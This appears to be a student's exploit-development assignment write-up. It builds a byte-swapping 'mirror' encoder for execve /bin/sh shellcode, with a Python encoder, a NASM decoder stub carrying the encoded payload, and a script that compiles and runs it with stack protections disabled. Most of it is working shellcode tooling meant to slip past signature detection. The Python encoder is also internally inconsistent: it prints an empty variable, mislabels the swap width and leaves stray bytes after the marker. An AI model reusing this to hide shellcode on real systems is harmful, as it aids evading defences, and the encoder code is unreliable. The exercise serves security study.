 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create a custom encoding scheme like the “Insertion Encoder” we showed you.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
  
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode with your schema and execute.
    * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
    
   * The resultant code must be passed to Mirror_Encoder.py where is "mirrored".
   
   * Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
    global _start			

    section .text
    _start:

      jmp short call_shellcode  ;jump-call-pop technique

    decoder:

      pop esi			; pop shellcode into esi
      lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
      xor eax, eax		; Clearing out eax and ecx
      xor ecx, ecx

    decode:
      mov ax, [esi]                ; Moves the first to bytes of esi to ax
      mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
      xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
      jz short EncodedShellcode    ; if xor os 0, jump to shellcode
      mov byte [edi], ah           ;Move the second byte to the first byte of edi
      mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
      inc edi			     ; move to next byte in edi
      inc edi			     ; move to next byte in edi	
      inc esi			     ; move to next byte in esi
      inc esi                      ; move to next byte in esi 
      jmp short decode	     ; jump back to start of decode

    ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

    call_shellcode:

    call decoder
    EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee
             
   * Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
    echo '[+] Assembling with Nasm ... '
    nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

    echo '[+] Linking ...'
    ld -o mirror-decode mirror-decode.o

    echo '[+] Done!'

    sleep 2

    echo "[+] Dumping disassembling code.."

    objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

    echo $objdump 
    sleep 3

    echo "[+] Compiling shellcode.c and executing it.."

    cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

    replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

    sleep 2

    gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


    ./shellcode
    
   
      
